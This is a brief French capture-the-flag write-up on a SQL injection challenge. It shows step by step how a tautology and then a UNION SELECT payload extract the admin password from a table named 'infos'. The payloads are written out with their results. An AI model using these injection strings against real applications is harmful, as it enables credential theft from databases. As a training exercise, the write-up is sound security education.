


# Vite Mon Injection 2

## Challenge :

Récupérer le mot de passe de l'admin

## Stratégie :

On peut déjà regarder comment ça fonctionne :

 - Avec `1` => `Pas de résultat`
 - Avec `1 or 1=1` => `2`

On va voir une requête simple :

 - `1; SELECT username, password FROM infos` => `La commande n'a pas marché`
 - `1; SELECT password FROM infos where username='admin'` => `La commande n'a pas marché`
 
On peut se dire que derrière la bonne donnée n'entre pas au bon endroit.
Essayons un UNION

 - `1 UNION SELECT password FROM infos WHERE username = 'admin';` => `Le bon mot de passe`